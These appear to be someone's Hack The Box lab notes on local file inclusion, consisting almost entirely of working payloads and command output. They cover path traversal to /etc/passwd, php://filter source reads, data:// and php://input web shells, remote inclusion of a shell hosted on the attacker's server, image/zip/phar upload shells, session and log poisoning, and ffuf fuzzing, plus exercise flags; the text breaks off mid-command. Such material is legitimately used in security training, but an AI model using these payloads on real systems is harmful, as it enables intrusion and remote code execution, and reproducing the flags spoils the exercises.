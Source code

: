 http://94.237.49.166:56586/index.php?language=../../../../etc/passwd
barry

http://94.237.49.166:56586/index.php?language=../../../../usr/share/flags/flag.txt
HTB{n3v3r_tru$t_u$3r_!nput}

languages//....//....//....//....//....//etc/passwd
http://83.136.255.150:55558/index.php?language=%6c%61%6e%67%75%61%67%65%73%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%65%74%63%2f%70%61%73%73%77%64

languages//....//....//....//....//....//flag.txt
http://83.136.255.150:55558/index.php?language=%6c%61%6e%67%75%61%67%65%73%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%66%6c%61%67%2e%74%78%74

HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}

fuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://83.136.253.251:45849/FUZZ.php
en                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 275ms]
es                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 275ms]
configure               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 276ms]

http://83.136.253.251:45849/index.php?language=php://filter/read=convert.base64-encode/resource=configure

echo "hash" | base64 -d #decrypt
HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}

php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"


echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

http://94.237.62.195:45255/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

curl -s -X POST --data '<?php system($_GET["c-m-d"]); ?>' "http://94.237.62.195:45255/index.php?language=php://input&cmd=id" | grep uid

echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"

http://94.237.62.195:45255/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls /
http://94.237.62.195:45255/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20/37809e2f8952f06139011994726d9ef1.txt

HTB{d!$46l3_r3m0t3_url_!nclud3}

##
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_includ

echo "<php? system($_GET['']); ?>"

sudo python3 -m http.server <LISTENING_PORT>
sudo python -m pyftpdlib -p 21
impacket-smbserver -smb2support share $(pwd)

10.129.29.114/index.php?language=http://10.10.15.82:8080/shell.php&cmd=id

http://10.129.29.114/index.php?language=http://10.10.15.82:8080/shell.php&cmd=cat%20/exercise/flag.txt
99a8fc05f033f2fc0cf9a6f9826f83f4

##

echo 'GIF8<?php system($_GET["c-m-d"]); ?>' > shell.gif

<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id

echo '<?php system($_GET["c-m-d"]); ?>' > shell.php && zip shell.jpg shell.php
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id

```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["c-m-d"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg

http://94.237.62.195:51553/index.php?language=./profile_images/shell.gif&cmd=cat%20/2f40d853e2d4768d87da1c81772bae0a.txt
HTB{upl04d+lf!+3x3cut3=rc3}

##
PHPSESSID cookie value is nhhv8i0o6ua4g88bkdl9u1fdsd

http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning #ini ketika user melakukan sesi jadi kita bisa mengintip sesi orang
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id

curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['c-m-d']); ?>"

http://83.136.253.251:46020/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E #tab 1
http://83.136.253.251:46020/index.php?language=/var/lib/php/sessions/sess_7a3mr9ipn6d3n052siu1emb3dm&cmd=pwd #tab 2
/var/www/html

HTB{1095_5#0u1d_n3v3r_63_3xp053d}

##
- Fuzzing Parameters
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287

- LFI wordlists
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]

- Server Logs/Configurations
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://83.136.255.150:40951/index.php?FUZZ=value' -fs 2287 | grep -v 571
view

ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.255.150:40951/index.php?view=FUZZ' -fs 2287 | grep -v 515
../../../../../../../../../../../../../../../../../../../../../../etc/passwd

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u http://83.136.255.150:40951/index.php?view=../../../../../../../../../../../../../../../../../../../../../../FUZZ/index.php -fs 2287 | grep -v 515
/var/www/html/ 

HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u http://83.136.255.150:40951/index.php?view=../../../../../../../../../../../../../../../../../../../../../../FUZZ/index.php -fs 2287 | grep -v 515

../../../../../../../../../../../../../../../../../../../../../../etc/flag.txt
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u http://83.136.255.150:40951/index.php?